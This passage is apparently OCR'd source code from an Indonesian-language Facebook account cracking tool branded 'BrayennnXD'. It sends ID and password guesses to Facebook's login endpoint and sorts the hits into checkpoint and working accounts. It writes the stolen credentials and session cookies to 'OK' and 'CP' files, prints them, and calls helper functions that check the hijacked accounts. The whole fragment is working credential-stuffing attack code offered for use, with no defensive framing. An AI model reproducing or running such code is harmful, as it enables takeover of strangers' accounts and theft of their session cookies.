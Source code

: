                                  "x-fb-http-engine": "Liger" 
                         } 
                         post = ses.post("https://graph.facebook.com/auth/login",params=params, headers=headers, allow_redirects=False) 
                         if "User must verify their account" in post.text: 
                                 if 'no' in gabriel: 
                                         cp+=1 
                                         print('\n') 
                                         statuscp = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] USERAGENT : {ua} ' 
                                         statuscp1 = nel(statuscp, width=90, style='bold yellow', title='BrayennnXD-CP') 
                                         cetak(statuscp1) 
                                         open('CP/'+cpc,'a').write(idf+'|'+pw+'\n') 
                                         akun.append(idf+'|'+pw) 
                                         break 
                                 elif 'ya' in gabriel: 
                                         cp+=1 
                                         print('\n') 
                                         statuscp = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] USERAGENT : {ua} ' 
                                         statuscp1 = nel(statuscp, width=90, style='bold yellow', title='BrayennnXD-CP') 
                                         cetak(statuscp1) 
                                         open('CP/'+cpc,'a').write(idf+'|'+pw+'\n') 
                                         akun.append(idf+'|'+pw) 
                                         ceker(idf,pw) 
                                         break 
                         elif "session_key" in post.text and "EAA" in post.text: 
                                 if 'no' in taplikasi: 
                                         ok+=1 
                                         coki = ";".join(i["name"]+"="+i["value"] for i in post.json()["session_cookies"]) 
                                         user = re.findall("c_user=(\d+)",coki)[0] 
                                         print('\n') 
                                         statusok = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] COOKIES  : {coki}' 
                                         statusok1 = nel(statusok, width=90, style='bold green', title='BrayennnXD-OK') 
                                         cetak(statusok1) 
                                         open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n') 
                                         break 
                                 elif 'ya' in taplikasi: 
                                         ok+=1 
                                         coki = ";".join(i["name"]+"="+i["value"] for i in post.json()["session_cookies"]) 
                                         user = re.findall("c_user=(\d+)",coki)[0] 
                                         print('\n') 
                                         statusok = f'[•] ID       : {idf}\n[•] PASSWORD : {pw}\n[•] COOKIES  : {coki}' 
                                         statusok1 = nel(statusok, width=90, style='bold green', title='BrayennnXD-OK') 
                                         cetak(statusok1) 
                                         open('OK/'+okc,'a').write(idf+'|'+pw+'|'+ua+'\n') 
                                         cek_apk(kuki) 
                                         break 
  
                         else: 
                                 continue 
                 except requests.exceptions.ConnectionError: 
                         time.sleep(31) 
         loop+=1 
  